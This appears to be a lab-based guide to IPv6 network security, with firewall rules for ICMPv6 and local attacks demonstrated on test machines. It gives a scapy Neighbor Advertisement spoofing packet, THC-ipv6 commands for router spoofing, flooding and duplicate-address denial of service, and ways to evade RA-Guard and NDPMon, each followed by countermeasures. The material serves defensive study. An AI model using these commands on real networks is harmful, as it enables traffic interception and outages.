

=============
IPv6 security
=============

--------------------
Something about IPv6
--------------------

- IPv6 development started in the early 1990 with few focus on security;
- Some IPv4 well known security breaches like arp poisoning, address spoofing, 
  etc. have their correspondent on IPv6;
- Some new IPv6 features create new vulnerabilities as well as transition process;
- There are already many IPv6 hacking tools available for anyone on the Internet;
- IPv6 deployment is still slow and vulnerabilities are not yet widely shared, 
  but this scenario is about to change.

It should be very easy to turn on IPv6 support and enable it to work, that
was the core idea of IPv6. You don't need dhcp anymore, everyone gets an IPv6
address for free and basically everything gets configured automatically.
That's for clients, but what should we do to make the router work?

Well it turns out if leave everyting on automatic, you will be actually very
insecure. Not only that will some old attacks affect you, but there are also new
ones that affect IPv6 users. To make IPv6 secure you must first configure it correctly
and then test the configurations.

-----------------------------------------------    
New IPv6 features and related security problems
-----------------------------------------------

**1.Larger Adress Space:**

    end to end architecture allowing full tracking and some applications 
    that were impossible with IPv4 and NAT, which changes the way network
    scanning and reconnaisance works. New BOGON threats.
    
    "Bogon filtering is the practice of filtering bogons, which are bogus
    IP addresses. Bogon is also an informal name for an IP packet on the public
    Internet that claims to be from an area of the IP address space reserved,
    but not yet allocated or delegated by the Internet Assigned Numbers Authority
    (IANA) or a delegated Regional Internet Registry (RIR). The areas of
    unallocated address space are called the bogon space."

**2.Enhanced Header:**

    simpler and more efficient header with 40 fixed bytes and adds the
    possibility of extension headers which leads to vulnerabilities related
    to them, opening new venues for attacks.

**3. Improved ICMP (ICMPv6) and Multicast management:**

    increased efficiency, allows auto-configuration, neighborhood discovery
    and multicast group management. No authentication can lead to different
    older attacks and new ones. Multicast capabilities can be exploited to
    gather network informations (reconnaissance).

**4. Auto configuration:**

    makes end user configuration easier. A very useful feature for a "tipical"
    computer user, who wants automatization. That also makes end users exposed
    to certain malicious attacks, specially at public locations.

**5. Fragmentation only at source:**

    data transmission are more efficient and have less overhead on intermediary
    routers. That makes ICMPv6 control more difficult, which leads to new
    attacks based on forged ICMPv6 messages.

**6. Mobility support:**

    mobility support integrated in the protocol allows nomadic and roaming
    applications. That means we get new connection interceptions with new
    man-in-the-middle and DOS (denial of service) attacks.

**7. IPv4 to IPv6 transition**

    since IPv4 is said to be used for at least 20 more years, transitioning
    from IPv4 to IPv6 means that most systems will have to run both and also
    use several tunneling techniques, meaning network adiminstrators have to
    put more effort in configuring the network which means more chance of
    having security holes, leading to possible new exploits and attacks.

--------------------------------------------
Get rid of the nat, it's time for firewalls!
--------------------------------------------

With ipv6 we get rid of NAT and all your devices have a public ipv6 address.
But if nat presented security feature in ipv4 networks, now you have to configure
your firewall, and configure it correctly. You have to make sure what you will
let in your network. 

First things first, let's make something clear. We will only let some kind of traffic
inside out network. That's gona be TCP, UDP and some ICMPv6 types. It's very
important which ICMPv6 packets you let in, because as we will see later ICMPv6
has gained much signifficant role in ipv6.

________________
Firewalling IPv6
________________

There's nothing special about firewalling ip layer, except now you will have to
filter all traffic to all hosts on your network.

Besides that, make sure to filter RH0 header, and i will copy-paste article 
why, taken form `here <http://www.deployingipv6.net/index.php/archives/2007/06/03/rh0/>`_::

    There’s been rather a lot of talk about RH0, that’s IPv6’s type 0 routing header. 
    Broadly speaking, the header allowed you to list a set of places that the 
    packet should go to before its final destination. In the book we commented 
    that source routing used to be a security hot button in IPv4, when 
    authentication based on source IPv4 address was common and packet filtering 
    was not. 

    The problems that we were thinking of were discussed at least going back to 
    the in the mid 90s, and related to source routing allowing any host on the 
    Internet to impersonate any other host and get the returned packets. Usually 
    someone who is doing IP spoofing is making a blind attack, because the replies 
    to the packets that they sent would not be routed back to them. With source 
    routing, some IP stacks would reverse the route for the returned packets, 
    allowing the attacker to get their hands on the replies. With network services 
    like rlogin being common, this was a big threat.

    Some other firewall evasion attacks were also possible with source routed 
    packets, but I think the IP spoofing attacks were most prominent in people’s 
    minds.

    It seems that IPv6 source routing has become a security hot button, but for 
    a slightly different reason. As far as I know, no IPv6 stacks ever reversed 
    the route, so the IP spoofing attacks have never been possible. The firewall 
    evasion attacks are still there, which I don’t think surprised anyone. However, 
    the attacks that caused RH0 to make the press are amplification attacks. 
    The attacks were demonstrated by Philippe Biondi and Arnaud Ebalard and a 
    nice summary was written by Geoff Huston.

    Interest in amplification attacks has grown since attacks like the smurf 
    attack appeared sometime around 1997 and particularly since denial of service 
    attacks became big news. I’m not sure that when the original problems with 
    IPv4 source routing were being discussed that amplification attacks were 
    really considered seriously. I think the full impact of amplification attacks 
    in the modern Internet, particularly with the proliferation of botnets, is 
    yet to fully understood.

    The outcome for IPv6 is that RH0 is now treated as a unknown header by many 
    IPv6 implementations, and will probably be formally retired by the IETF shortly. 
    Other types of routing header (particularly RH2, which is used by Mobile IPv6) 
    should continue to be operate normally, as they do not pose the same risks. 
    I think the remaining interesting question is how do we design a version of 
    RH0 which is both safe and useful.

______
ICMPv6
______

With ipv6 icmp has gained much signifficant role, because it's not only
used for error control and flow control like in ipv4, but it has also replaced
functionality that arp used to handle. 
Fragmentation, Neighbor Discovery, and StateLess Address AutoConfiguration 
(SLAAC) represent essential functionality which is now performed using ICMP messages. 
At the same time ICMP messages are designed to be sent to multicast addresses 
instead of unicast addresses.

There are roughly several actions that could be taken to protect agains attackers
abusing ICMPv6:

* Configure firewall correctly to protect agains malicious ICMPv6 messages,
  this is important for all kinds of environments, because this layer
  of security newer hurts, but will in most cases save your ass.
* Use :term:`IPSec`, this is especially feasible for production environemnts.
* Use :term:`SEnD` mechanism instead of pure :term:`NDP` without using IPSec. 
  SEnD uses RSA key pairs instead of IPSec to secure various ICMP messages.
  Implementing this mechanism could be difficult, because not all devices support
  it, but is again feasible for production environemnts.
* Use "intelligent" deprecation tool like `NDPMon <http://ndpmon.sourceforge.net>`_.
* Enable ipv6 privacy extensions on hosts using your network.

Most of the :term:`THC-ipv6` tools are ment especially for pentesting ICMPv6 security.

__________________
Firewalling ICMPv6
__________________

:term:`ICMPv6 types` that should be accepted originating and going to the internet 
are following:

.. tabularcolumns:: | p{1cm} | p{4cm} | p{1cm} | p{9cm} |

+----------------------------------------------+--------------------------------------------------------------------+
| Type                                         | Code                                                               |
+---------+------------------------------------+-------+------------------------------------------------------------+
| Value   | Meaning                            | Value | Meaning                                                    |
+---------+------------------------------------+-------+------------------------------------------------------------+
|                                  ICMPv6 Error Messages                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    1    | Destination Unreachable            |   0   | no route to destination                                    |
|         |                                    |       |                                                            |
|         |                                    |   1   | communication with destination administratively prohibited |
|         |                                    |       |                                                            |
|         |                                    |   2   | beyond scope of source address                             |
|         |                                    |       |                                                            |
|         |                                    |   3   | address unreachable                                        |
|         |                                    |       |                                                            |
|         |                                    |   4   | port unreachable                                           |
|         |                                    |       |                                                            |
|         |                                    |   5   | source address failed ingress/egress policy                |
|         |                                    |       |                                                            |
|         |                                    |   6   | reject route to destination                                |
|         |                                    |       |                                                            |
|         |                                    |   7   | Error in Source Routing Header                             |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    2    | Packet too big                     |   0   |                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    3    | Time Exceeded                      |   0   | hop limit exceeded in transit                              |
|         |                                    |       |                                                            |
|         |                                    |   1   | fragment reassembly time exceeded                          |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    4    | Parameter Problem                  |   0   | erroneous header field encountered                         |
|         |                                    |       |                                                            |
|         |                                    |   1   | unrecognized Next Header type encountered                  |
|         |                                    |       |                                                            |
|         |                                    |   2   | unrecognized IPv6 option encountered                       |
+---------+------------------------------------+-------+------------------------------------------------------------+
|                                  ICMPv6 Informational Messages                                                    |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    128  | Echo request                       |   0   |                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    129  | Echo reply                         |   0   |                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+

Everything else must get dropped!

On the local network the following additional ICMPv6 messages must be accepted:

.. tabularcolumns:: | p{1cm} | p{4cm} | p{1cm} | p{9cm} |

+---------+------------------------------------+-------+------------------------------------------------------------+
|                                  ICMPv6 Informational Messages                                                    |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    133  | Router Solicitation (NDP)          |   0   | From hosts to router                                       |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    134  | Router Advertisement (NDP)         |   0   | From router to hosts                                       |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    135  | Neighbor Solicitation (NDP)        |   0   | Betwene hosts                                              |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    136  | Neighbor Advertisement (NDP)       |   0   | Betwene hosts                                              |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    137  | Redirect Message (NDP)             |   0   | From router to hosts, only if there are multiple routers   |
+---------+------------------------------------+-------+------------------------------------------------------------+

------------------------------
IPv6, ICMPv6 and local attacks
------------------------------

In this section we will present several possible attacks inside ipv6 networks and
needed actions to prevent against. Also some tests will be written latter
to garantee that speciffic network is secure against those attacks.

__________________________________________________________________________
Icmp :term:`Neighbor Solicitation`/:term:`Neighbor Advertisement` spoofing
__________________________________________________________________________

**Description**

The ICMP router discovery messages are called :term:`Router Advertisement`
and :term:`Router Solicitation`. Each router periodically multicasts a 
Router Advertisement from each of its multicast interfaces, 
announcing the IP address(es) of that interface. Hosts discover the 
addresses of their neighboring routers simply by listening for 
advertisements. When a host attached to a multicast link starts up, 
it may multicast a Router Solicitation to ask for immediate advertisements, 
rather than waiting for the next periodic ones to arrive; 
if (and only if) no advertisements are forthcoming, the host may retransmit 
the solicitation a small number of times, but then must desist from 
sending any more solicitations. Any routers that subsequently start up, 
or that were not discovered because of packet loss or temporary link 
partitioning, are eventually discovered by reception of their periodic 
(unsolicited) advertisements.

Attacker is able to redirect all local traffic to your own system by answering 
falsely to :term:`Neighbor Solicitation` requests.

**Attack**

There's quite easy to perfrorm this attack. Well you can use :term:`THC-ipv6` 
parasite6 tool, but we will look up how you can craft up required packets by hand.

What you need to do is create :term:`Neighbor Advertisement` packet with spoofed
mac address. To know whom to spoof you just need to wait for :term:`Neighbor Solicitation`
multicast messages from other hosts on the network.

Here is an example of crafting fake :term:`Neighbor Advertisement` using :term:`scapy`::

    >>> ls(Ether)
    dst        : DestMACField         = (None)
    src        : SourceMACField       = (None)
    type       : XShortEnumField      = (0)
    >>> ether=(Ether(dst='08:00:27:ad:c8:30', src='ba:2d:7e:de:15:c6'))
    >>> ls(IPv6)
    version    : BitField             = (6)
    tc         : BitField             = (0)
    fl         : BitField             = (0)
    plen       : ShortField           = (None)
    nh         : ByteEnumField        = (59)
    hlim       : ByteField            = (64)
    src        : SourceIP6Field       = (None)
    dst        : IP6Field             = ('::1')
    >>> ipv6=IPv6(src='fe80::a00:27ff:fedb:225c', dst='fe80::a00:27ff:fead:c830')
    >>> ls(ICMPv6ND_NA)
    type       : ByteEnumField        = (136)
    code       : ByteField            = (0)
    cksum      : XShortField          = (None)
    R          : BitField             = (1)
    S          : BitField             = (0)
    O          : BitField             = (1)
    res        : XBitField            = (0)
    tgt        : IP6Field             = ('::')
    >>> na=ICMPv6ND_NA(tgt='fe80::a00:27ff:fedb:225c', R=0)
    >>> ls(ICMPv6NDOptDstLLAddr)
    type       : ByteField            = (2)
    len        : ByteField            = (1)
    lladdr     : MACField             = ('00:00:00:00:00:00')
    >>> lla=ICMPv6NDOptDstLLAddr(lladdr='ba:2d:7e:de:15:c6')
    >>> packet = ether/ipv6/na/lla

Now we send this packet and at the same time at the victim machine we monitor
neighbours on link::

    >>> sendp(packet, iface='priv', loop=1, inter=5)

Before the attack router's mac is not redirected to attacker::

    vagrant@priv:~$ ip -6 neigh show
    fe80::a00:27ff:fedb:225c dev eth1 lladdr 08:00:27:db:22:5c router STALE

After a few seconds of sending spoofed :term:`Neighbor Advertisement` packets,
mac address for router gets changed::

    vagrant@priv:~$ ip -6 neigh show
    fe80::a00:27ff:fedb:225c dev eth1 lladdr ba:2d:7e:de:15:c6 STALE

**Countermeasures**

It's not easy to prevent against this kind of attacks, but there still exists
some security measures like:

* Enter static mac addresses of routers

    This is especially usefull on managed environemnts. Setting static mac
    addresses will ensure that they won't get overwritten by attacker sending 
    bogous :term:`Neighbor Advertisement` messages. 

    To set static router MAC addresses on linux you can use following command::

        vagrant@priv:~$ sudo ip -6 neigh replace fe80::MAC lladdr MAC nud permanent dev device

    Neighbour entry is now permanent and :term:`NDP` can't change it, however
    communication betwene host on the network can still get redirected over
    attacker.

* Use :term:`SeND` or :term:`CGA`

    :term:`SeND` is using :term:`CGA` (Cryptographically Generated Address)
    which makes shure that :term:`Neighbor Advertisement` messages are authentic.

    There exists opensource solution called 
    `NDProtector <http://amnesiak.org/NDprotector/>`_, which implements :term:`CGA`
    in userspace.

    .. note:: 

        :term:`CGA` is not wildly deployed and no production read software exists for
        some operating systems, so it is advised not to use it, yet.

* Tunneling solutions like :term:`IPSec` should be used, but they are not wildly deployed.

_____________________________________
:term:`Router advertisement` spoofing
_____________________________________

  **Description**

  When host connects to ipv6 network it usually sends :term:`Router Solicitation`
  to find about active routers in the network on multicast address. Router sends
  periodicly or demand :term:`Router Advertisement` messsages, to inform hosts
  about:

    * IPv6 address prefix (so they can configure their address)
    * DNS server
    * MTU size
    * Should hosts go look for a DHCPv6 server or not
    * NTP server address

  Attacker can spoof :term:`Router Advertisement` messages and perform some pretty
  nasty attacks.

  **Attacks**

  * :term:`Router Advertisement` fake router

    .. image:: _static/RAspoofing.png

    This attack spoofs :term:`Router Advertisement` messsages and tries to become
    router with highest priority.

    :term:`THC-ipv6` tool fake_router6 performs this attack. You can try it with
    these simple commands::

        (ethertest)offlinehacker@ubuntu-dev:~/projects/ethertest# fake_router6 priv 2001:db8:0:1::/64
        Starting to advertise router 2001:db8:0:1:: (Press Control-C to end) ...

    We can quickly see spoofed messages in wireshark and after few moments default
    route on victim gets poisoned with new entry::

        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 86sec
        default via fe80::b82d:7eff:fede:15c6 dev eth1  proto kernel  metric 1024

    If we ping some external address like 2001:db8::fffe, we can quickly see
    that packets gets routed via attacker.

  * :term:`Router Advertisement` flood

    .. image:: _static/RAflood.png

    Hosts like Windows XP, 2003, Vista, 7, and 2003 don’t set a limit on the 
    amount of routers they like to listen to.  Whereas in Linux and Mac they 
    set their limit at right around 15.  If there are more than 15 different 
    RAs coming at them, they stop configuring the address and routes.

    If you send millions of RAs different IPv6 source addresses with different 
    IPv6 prefixes, you can, in a matter of seconds turn a fully functioning 
    Windows machine into a brick.

    :term:`THC-ipv6` tool flood_router6 does exactly that. There's a nice video
    demonstrating this attack avalible at 
    `http://www.youtube.com/watch?v=1EAnjZqXK9E <http://www.youtube.com/watch?v=1EAnjZqXK9E&feature=player_embedded>`_.

  **Countermeasures**

  :rfc:`6104` describes what we can do to prevent :term:`Router Advertisement` 
  spoofing:

  * Implement RA snooping

    Idea is that RAs observed from incorrect sources are blocked or dropped, 
    and not propagated through a subnet. One candidate solution in this space, 
    called "RA-Guard" proposed in :rfc:`6105`.

    .. note:

        This type of solution may not be applicable everywhere, e.g., in environments 
        where there are not centrally controlled or manageable switches.

    `Well it turns out that writing efficient RA guard is not that simple. <http://tachyondynamics.com/blog/?p=27>`_
    There are different evaison techniques, and one of interseting is by
    using fragmentation and putting :term:`Router Advertisement` right behind 
    destintion option header and inside fragmentation header. Once the destination 
    recives this packet (as by design) it puts the packet back together and sees 
    it as an IPv6 RA. 
    However, Destination Options are not meant to be read by intermediate 
    devices like firewalls and/or routers, and that is why the ease of evasion.

    .. image:: _static/2nd-technique-672px.png

  * SEcure Neighbor Discovery (:term:`SeND`)

  * Using Host-Based Packet Filters

    In a managed environment, hosts could be configured via their
    "personal firewall" to only accept RAs from trusted sources.  Hosts
    could also potentially be configured to discard 6to4-based RAs in a
    managed enterprise environment.

  * Adding Default Gateway/Prefix Options to DHCPv6

    Adding Default Gateway and Prefix options for DHCPv6 would allow
    network administrators to configure hosts to only use DHCPv6 for
    default gateway and prefix configuration in managed networks, where
    RAs would be required today.  A new document has proposed such a
    default router option, along with prefix advertisement options for
    DHCPv6. Even with such options added to DHCPv6,
    an RA is in principle still required to inform hosts to use DHCPv6.

    An advantage of DHCPv6 is that should an error be introduced, only
    hosts that have refreshed their DHCP information since that time are
    affected, while a multicast rogue RA will most likely affect all
    hosts immediately.  DHCPv6 also allows different answers to be given
    to different hosts.

    While making host configuration possible via DHCPv6 alone is a viable
    option that would allow IPv6 configuration to be done in a way
    similar to IPv4 today, the problem has only been shifted: rather than
    rogue RAs being the problem, rogue DHCPv6 servers would be an
    equivalent issue. As with IPv4, a network would then still require
    use of Authenticated DHCP, or DHCP(v6) snooping.

    There is certainly some demand in the community for DHCPv6-only host
    configuration. While this may mitigate the rogue RA issue, it simply
    moves the trust problem elsewhere, albeit to a place administrators
    are familiar with today.

  * Different Tunneling solutions

    Usage of :term:`IPSec`, 802.1X and similar should give you another
    layer of protection, but will cost you performance.

  * Using an "Intelligent" Deprecation Tool

    It is possible to run a daemon on a link (perhaps on the router on
    the link) to watch for incorrect RAs and to send a deprecating RA
    with a router lifetime of zero when such an RA is observed.

    .. note::

        `NDPMon <http://ndpmon.sourceforge.net/>`_ is opensource tool that
        detects anomalies in ICMPv6 and can perform actions, like sending
        mail to administrator or similar.

  **Trying out NDPMon**

    We tried out how `NDPMon <http://ndpmon.sourceforge.net/>`_ performs
    ad "Intelligent" Deprecation tool.
    It should be easy to setup, and it should learn itself which hosts are
    routers and wich hosts are the neighbours.
    
    Version provided by different linux distribution package managers is sometimes old,
    it's advised to build it from source. You can find instructions at
    `ndpmon <http://ndpmon.sourceforge.net/index.php?n=Doc.Installation>`_.

    After you do that, you just need to configure it. Basicly you need to specify
    mac, link local addresses of your router interface and ipv6 network prefix::

        vagrant@router:~$ cat /etc/ndpmon/config_ndpmon.xml

        [...]
        <probes>
        <probe name="eth2" type="interface">
            <countermeasures_enabled>1<countermeasures_enabled>
        <routers>
            <router>
                <mac>08:00:27:db:22:5c</mac>
                <lla>fe80::a00:27ff:fedb:225c</lla>
                <param_curhoplimit>64</param_curhoplimit>
                <param_flags_reserved>0</param_flags_reserved>
                <param_router_lifetime>10800</param_router_lifetime>
                <param_reachable_timer>0</param_reachable_timer>
                <param_retrans_timer>0</param_retrans_timer>
                <param_mtu>0</param_mtu>
                <params_volatile>1</params_volatile>
                <addresses/>
                <prefixes>
                    <prefix>
                    <address>2001:db8:0:1::</address>
                    <mask>64</mask>
                    <param_flags_reserved>224</param_flags_reserved>
                    <param_valid_time>2592000</param_valid_time>
                    <param_preferred_time>604800</param_preferred_time>
                    </prefix>
                </prefixes>
            </router>
        </routers>
        </probe>
        </probes>
        [...]

    As you can see NDPMon can run it's probes on multiple interfaces, even on
    remote hosts.

    When there is no attacker NDPMon does not report any alert::

        vagrant@router:~$ sudo ndpmon
        ----- Initialization -----
        Reading configuration file: "/etc/ndpmon/config_ndpmon.xml" ...
        [settings] NDPMon general settings: {
            actions high priority {
                syslog
                no sendmail
                no pipe program
            }
            actions low priority {
                syslog
                no sendmail
                no pipe program
            }
            admin mail root@localhost
            ignor autoconf
            syslog facility LOG_LOCAL1
            no use reverse hostlookups
        }
        [parser] Finished reading the configuration.
        Reading neighbors file: "/var/local/lib/ndpmon/neighbor_list.xml" ...
        [parser] Finished reading the neighbor cache.
        ------------------

        [capture_pcap] Listening on interface eth2.
        ----- ND_ROUTER_ADVERT -----
        Reset timer for 8:0:27:db:22:5c fe80::a00:27ff:fedb:225c
        [parser] Writing cache...
        ------------------

    But if we want to advertise fake router, we can quickly notice new alerts::

        root@ubuntu-dev:~/projects/ethertest# fake_router6 priv 2001:db8:0:1::/64

        ----- ND_ROUTER_ADVERT -----
        [alerts] Alert "wrong ipv6 router" raised on probe "eth2".
        ------------------

    It would be fun to see what happens if we turn on countermeasures::

        vagrant@router:~$ cat /etc/ndpmon/config_ndpmon.xml

        [...]
        <countermeasures>
            <kill_illegitimate_router>RESPOND</kill_illegitimate_router>
            <kill_wrong_prefix>LAUNCH AFTER 10</kill_wrong_prefix>
            <propagate_router_params>CEASE AFTER 10</propagate_router_params>
            <propagate_router_dns>RESPOND</propagate_router_dns>
            <propagate_router_routes>RESPOND</propagate_router_routes>
            <propagate_neighbor_mac>RESPOND</propagate_neighbor_mac>
            <indicate_ndpmon_presence>SUPPRESS</indicate_ndpmon_presence>
        </countermeasures>
        [...]

    We start NDPMon with countermeasures enabled, and we can quickly see that
    they are pretty effective::

        ----- ND_ROUTER_ADVERT -----
        [alerts] Alert "wrong ipv6 router" raised on probe "eth2".
        [countermeasures]: Sent zero lifetime advertisement for illegitimate router.
        ------------------

        ---- ICMP packet ----
        [countermeasures]: Packet dropped as it is a NDPMon counter measure.
        ------------------
       
    As we can see packet is dropped on router and zero lifetime advertisement for
    illegitimate router is send. We can quickly notice that default gateway does
    not get poisoned::

        vagrant@router:~$ sudo ndpmon

        [...]
        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 86sec

    I was wondering if i could evade countermeasures if i turn on :term:`hop-by-hop`
    header using::

        root@ubuntu-dev:~/projects/ethertest# fake_router6 -H priv 2001:db8:0:1::/64
        Starting to advertise router 2001:db8:0:1:: (Press Control-C to end) ...

    Well surprisingly it turned out it worked, NDPMon didn't detect fake 
    :term:`Router Advertisement` packets anymore and i was happily able to poison
    ipv6 routes once again::

        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 67sec
        default via fe80::b82d:7eff:fede:15c6 dev eth1  proto kernel  metric 1024

    So it looks like NDPMon was not so affective after all and we can summarize
    that currently no effective opensource tool, besides tunneling mechanisms 
    exists that would protect against :term:`Router Advertisement` spoofing.

    .. note::

        NDPMon is not useless afterall, it is still able to identify and report
        about new hosts on a network and could be easyly used to monitor managed
        environemnts. At the same time smart attaker won't make any noise and
        only attack speciffic hosts on a switched networks and usually won't be
        detected.

_________________________________________
Denial of Service (DoS) with IP conflicts
_________________________________________

  **Description**
 
  Duplicate address detection (DAD) allows hosts to detect if some ipv6 address is
  already assigned when performing :term:`SLAAC`. The process can be described
  as following:

  1. Node tries to assign some address X to it's interface
  2. First it joins multicast group FF02::1 for add nodes and FF02::1:FF00:0:X
  3. It checks if there's any :term:`Neighbor Solicitation` query with same ip
  4. Then it sends :term:`Neighbor Solicitation` query with destination of
     FF02::1:FF00:0:X to ask if there's anybody with this ip on the network
  5. It checks for any :term:`Neighbor Advertisement` to address FF02::1

  In case of events 3 or 5, address is already taken, else node can use it.

  Well what happens if attacker allways responds to DAD with a positive, DDOS.

  **Attack**

  We will once again use `THC-ipc6` tool dos-new-ipv6::

    root@ubuntu-dev:~/projects/ethertest# dos-new-ip6 priv
    Started ICMP6 DAD Denial-of-Service (Press Control-C to end) ...
    Spoofed packet for existing ip6 as fe80::a00:27ff:fead:c830
    Spoofed packet for existing ip6 as fe80::a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:f489:f23b:bb34:2a44
    Spoofed packet for existing ip6 as 2001:db8:0:1:f489:f23b:bb34:2a44
    Spoofed packet for existing ip6 as 2001:db8:0:1:a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:e470:b690:2817:cf15
    Spoofed packet for existing ip6 as 2001:db8:0:1:e470:b690:2817:cf15
    Spoofed packet for existing ip6 as 2001:db8:0:1:e82a:43ce:d93:c667
    Spoofed packet for existing ip6 as 2001:db8:0:1:e82a:43ce:d93:c667
 
  As we can see host tried many times, but was unable to get ip. If we examine
  host ip configuration, ip is not assigned to interface::

    vagrant@priv:~$ ifconfig

    [...]
    eth1      Link encap:Ethernet  HWaddr 08:00:27:ad:c8:30  
            inet addr:10.1.0.18  Bcast:10.1.255.255  Mask:255.255.0.0
            inet6 addr: fe80::a00:27ff:fead:c830/64 Scope:Link
            UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
            RX packets:15677 errors:0 dropped:0 overruns:0 frame:0
            TX packets:1829 errors:0 dropped:0 overruns:0 carrier:0
            collisions:0 txqueuelen:1000 
            RX bytes:1615960 (1.6 MB)  TX bytes:188906 (188.9 KB)
    [...]

  **Countermeasures**

  This attack shares a lot in common with term :term:`Router Advertisement`
  spoofing, so similar methods for prevention could be used.

  .. note::

    We decided to try out what NDPMon says about this attack, if tool is able to
    detect it. It turned out it was useless.

* Denial of Service (DoS) with Neighbor floods

There are also some other local attacks that are possible, but like presented
there are no effective mechanism, besides different tunneling to prevent attacks 
inside ipv6 networks.

---------------------
Secure implementation
---------------------

We have tried to prevent these attacks and find out that only tunneling mechanisms
like :term:`IPSec` or link based authentication mechanisms like :term:`802.11q`
can protect agains local attacks. 

.. note::

    For demonstration there's avalible a secure implementation of network
    using :term:`IPSec` avalible :doc:`here <linux_standard_corporate>`
